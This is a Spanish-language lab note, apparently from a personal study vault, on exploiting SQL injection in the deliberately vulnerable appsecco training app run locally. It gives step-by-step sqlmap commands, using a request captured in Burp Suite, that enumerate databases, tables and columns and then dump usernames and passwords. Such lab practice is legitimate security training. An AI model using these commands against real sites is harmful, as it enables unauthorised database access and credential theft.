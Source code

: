 
----------
-  Tags: #Explotación #Manuales #Automatizadas #SQL #INJECTION
-----
# Explotación Manual
- **Empezamos clonando el repositorio:**
```
git clone https://github.com/appsecco/sqlinjection-training-app
```

- **Desplegamos el contenedor con:**
```
docker-compose up 
```

- **Ingresamos al localhost por el puerto 8000:**
```web
localhost:8000
```
- Aplastar en reset database
- Loguearse como admin admin
- Usar el **burpsuite** con el **FoxyProxy** para interceptar petición, en la opción Proxy de burpsuite guardamos el archivo en cuestión en nuestro directorio.
- Utilizamos la herramienta sqlmap para saber si es inyectable:
```sql
sqlmap -r request -p searchitem --batch
```
- Dumpeamos el requerimiento en caso de ser positivo la inyección.
```
sqlmap -r request -p searchitem --batch --dbs
```
- Para mostrar las tablas existentes en **sqlitraining**.
```sql
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables
```
- Indica dos tablas que podrían ser atacadas.
```
+---------+
|products | 
|users    |
+---------+
```
- Ahora enumeraremos las columnas.
```SQL
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
```
```
+-------------------+
|Column  |Type      |
+-------------------+
|description|varchar|
|fname      |varchar|
|id         |int    |
|password   |varchar|
|username   |varchar|
+-------------------+
```
- Ahora dumpeamos los valores de username y pasword
```
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump
```
![[Dumpeamos username y password.png]]


>**Repositorio en github del SQL INJECTION:**
 [sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

